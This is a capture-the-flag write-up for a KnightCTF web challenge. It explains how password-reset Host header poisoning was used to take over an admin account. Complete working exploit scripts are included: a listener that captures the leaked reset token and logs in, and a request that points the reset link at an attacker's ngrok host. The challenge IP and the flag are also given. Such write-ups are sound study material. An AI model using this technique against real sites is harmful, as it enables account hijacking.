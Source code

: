 # Admin Access


### Initial Analysis

The site appeared as follows, with a login screen:

![login](/images/site_presentation.png)

After completing the registration and login phase, you would enter a completely empty dashboard where the only available action was to log out. That’s when I realized that registering was pointless. Inspecting the page source, I found a strange comment:

![comment](https://i.imgur.com/J5W8ZJG.png)

the comment revealed an email, most likely belonging to the account containing the flag. Continuing to explore the site since it was a black-box challenge without any files I found the "Forgot Password" section:

![forgot](https://i.imgur.com/kTCny7l.png)

Where it was possible to specify an email to reset a password. At this point, I thought about resetting the password for the account associated with the email I had found earlier. And I considered a Host Header Injection.

### Exploit

So i started ngrok on port 80:

```
ngrok http 80
```

And then, using Burp Suite, I modified the Host header to `Host: ngrok_link`. By sending the request with the modified Host header through ngrok, I was able to extract the reset token from the previously sent "Forgot Password" request with the email kctf2025@knightctf.com:

![intercept](https://i.imgur.com/fXFhS1s.png)

After extracting the valid token, I reset the password using the obtained link and logged in with the account using the following credentials:

```
username: kctf2025 
password: new_password
```

![flag](https://i.imgur.com/jQ6VR20.png)

### Automated Exploit

I also created a fully automated exploit that performs the entire process described earlier:

```
ngrok http 8080
(set the ngrok url in the request.py file)
python exploit.py
python request.py
```
this is `exploit.py`: 

```python 
import http.server
import socketserver
import requests
import re
from urllib.parse import urlparse, parse_qs

class MyHandler(http.server.BaseHTTPRequestHandler):
    def do_GET(self):

        # Extract the token parameter from the request
        token = parse_qs(urlparse(self.path).query).get('token', [None])[0]
        self.send_request(token)

    def send_request(self, token):

        s = requests.Session()
        url = "http://45.56.68.122:7474/"

        password = "supermario45"
        data ={
            "token":token,
            "new_password":password
        }
        # Request for the password reset of the admin account
        s.post(url+"reset-password", data=data).text

        credentials={
            "username":"kctf2025",
            "password":password
        }
        # Request login admin account with Flag extraction via Regex
        print("\nFLAG: " + re.search(r'KCTF{[^}]+}', s.post(url, data=credentials).text).group(0))

def start_server():
    PORT = 8080
    with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
        httpd.serve_forever()

if __name__ == "__main__":
    start_server()
```

and this is `request.py`:

```
import requests

requests.post("http://45.56.68.122:7474/forgot-password", data={"email":"kctf2025@knightctf.com"}, headers={"Host":"6cde-93-70-84-224.ngrok-free.app"})
```

### Flag
```
KCTF{PaSsW0rD_ReSet_p0is0n1ng_iS_FuN}
```
